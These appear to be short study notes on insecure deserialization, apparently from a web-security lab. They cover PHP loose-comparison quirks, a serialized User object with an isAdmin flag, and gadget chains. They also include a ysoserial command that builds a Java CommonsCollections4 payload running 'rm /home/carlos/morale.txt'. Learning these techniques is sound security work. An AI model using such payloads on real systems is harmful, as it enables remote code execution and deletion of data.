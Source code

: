 # PHP

**v7 and earlier**:
`0 == 'whaterver'`
evalutes to true

*including 8 version*:
`5 == '5 whatever';`

Serialized object example:
`O:4:"User":2:{s:8:"username";s:6:"carlos";s:7:"isAdmin";b:0;}`

# Gadget chains
A "gadget" is a snippet of code that exists in the application that can help an attacker to achieve a particular goal. 

### Working with pre-built gadget chains

#### ysoserial - tool for payload creation for java deserialization
https://github.com/frohoff/ysoserial/releases/tag/v0.0.6
Example of usage on java 21:
```bash
java \
   --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED \
   --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.runtime=ALL-UNNAMED \
   --add-opens=java.base/java.net=ALL-UNNAMED \
   --add-opens=java.base/java.util=ALL-UNNAMED \
   -jar ./ysoserial-all.jar CommonsCollections4 'rm /home/carlos/morale.txt' | base64
```
Creates malicious serialized data